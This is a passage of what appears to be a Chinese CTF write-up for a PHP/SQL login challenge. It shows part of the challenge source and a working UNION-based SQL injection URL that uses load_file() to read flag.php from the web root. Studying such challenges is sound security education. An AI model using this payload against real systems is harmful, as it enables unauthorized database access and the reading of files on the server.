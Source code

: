 ```php
    echo "<br>";
    if (!$row) {
        die("something wrong");
    }
    else
    {
        print_r($row);
        echo $row['uname']."<br>";
        
    }
    if ($row[1] === $uname)
    {
    die($flag);
    }
}
highlight_file(__FILE__);
```

多句执行好像不能用, 只能 union 查询...

直接用 load_file() 读取 flag.php

```
http://43.142.108.3:28436/?uname=123' union select 1,load_file(concat('/var/www/html/fla','g.php')),3; --+
```

![](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202210251054165.png)
